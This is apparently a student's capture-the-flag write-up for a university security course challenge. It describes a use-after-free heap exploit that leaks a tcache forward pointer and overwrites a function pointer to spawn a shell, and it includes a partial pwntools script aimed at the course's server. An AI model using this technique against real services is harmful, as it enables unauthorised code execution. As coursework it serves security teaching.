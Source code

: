 # COMP6447 Wargame 7
Written by WENG XINN CHOW (z5346077) on 30.07.2022

usemedontabuseme
=========================== 
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNy11c2VtZWRvbnRhYnVzZW1lIiwiaXAiOiIxMDMuMjE2LjE5MC4zNyIsInNlc3Npb24iOiI2MTMyOWY5NS1lZDVhLTQ3N2YtOGZlMC1lYmIwMTUxNmVlYjgifQ.HD71b766LRSPJv6P9ilUgZwl-XKyRqxSM8xZUtaezDQ}

General overview of problems faced 
------------------------------------- 
1. Had to understand how to leak the forward pointer of a free chunk in use-after-free. 
2. In order to get the forward pointer of the first clone, I created 2 clones, freed the second clone, then the first one. This makes the forward pointer in the first chunk to point at the second chunk.
3. I have been stucked here for a long time since I forgot to use docker at first. It didn't work without using docker.
4. The hint function pointer is at 12 bytes after the address of the forward pointer.
5. Malloc to get the chunks out of tcache. The hint function can be overwritten in the last malloc since we have reference to the address of the hint function pointer in the previous mallocs. 
6. Lastly, I got the ```/bin/sh``` shell by choosing H(2) in the interactive shell since the creation of the clone 2 returns the  address of the hint function pointer.

------------------ 
``` 
from pwn import *

# p = process("./usemedontabuseme")

host = "comp6447.wtf"
port = 22488
p = remote(host, port)

win = p32(0x0804967c)

p.recvlines(19)
p.sendline(b'A')
p.sendline(b'0')
p.sendline(b'A' * 8)

p.recvlines(10)
p.sendline(b'A')
p.sendline(b'1')
p.sendline(b'B' * 8)

p.recvlines(10)
p.sendline(b'B')
p.sendline(b'1')

p.recvlines(11)
p.sendline(b'B')
p.sendline(b'0')

p.recvlines(11)
p.sendline(b'D')
p.sendline(b'0')

p.recvlines(2)
p.recvuntil(b': ')
leak = u32(p.recv(4))
log.info(f"leak fd pointer: {hex(leak)}")
hint_pointer = leak - 0x20 + 12
log.info(f"hint function pointer: {hex(hint_pointer)}")
```